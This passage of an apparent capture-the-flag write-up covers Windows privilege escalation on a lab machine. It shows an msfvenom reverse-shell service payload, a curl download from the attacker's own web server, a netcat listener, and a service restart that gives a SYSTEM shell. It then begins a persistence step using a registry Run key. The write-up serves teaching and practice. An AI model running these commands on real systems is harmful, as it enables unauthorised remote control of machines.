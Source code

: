 Now we can use metasploit again to create another reverse shell on a different port that the one used for initial access, since it is still in use. We will call it `Mouse.exe` this time. I used `exe-service` this time since the payload will run in place of a service.

**Command:** `msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=6666 -f exe-service -o Mouse.exe`

I started a python web server on my local machine so we, as purpletom, can download Mouse.exe to the target machine.
**Command:** `python3 -m http.server`

Navigate to `C:\Program Files (x86)\Mobile Mouse` and run the curl command to get the file from the local python server.

**Command:** `curl http://10.6.17.239:8000/Mouse.exe -o Mouse.exe`

We need to start another netcat listener on tour local machine using the port specified when generating Mouse.exe.

**Command:** `nc -lvnp 6666`

And start the Mobile Mouse Service from our shell as purpletom, running Mouse.exe instead of the Mobile Mouse Service.

**Command:** `net start "Mobile Mouse Service"`

After Windows tries to start the service we will receive a connection on the listening port and a new shell as `nt authority\system`.

![](images/mouse-trap-system.png)

The root flag can be found on the Administrator's Desktop.

![](images/mouse-trap-root-flag.png)

### Persistence

| Tactics            | Techniques                                                                                    | Procedures                                                                                          |
| ------------------ | --------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| TA003: Persistence | Registry Run Keys / Startup Folder (T1547.001)  <br>Create Account: Local Account (T1136.001) | Finally, you will maintain persistence thanks to registry run keys and local user account creation. |

To establish persistence, we will add an entry to the Run key in the `HKEY_CURRENT_USER` registry hive. Programs listed under this key automatically execute when the user logs in. Since we are adding to the Run key using the `SYSTEM user`, the payload (located at `"C:\Windows\Temp\shell.exe"`) will run with admin-level privileges whenever the SYSTEM user logs in. We should specify the registry key name as `shell`. We can achieve this with the following command.
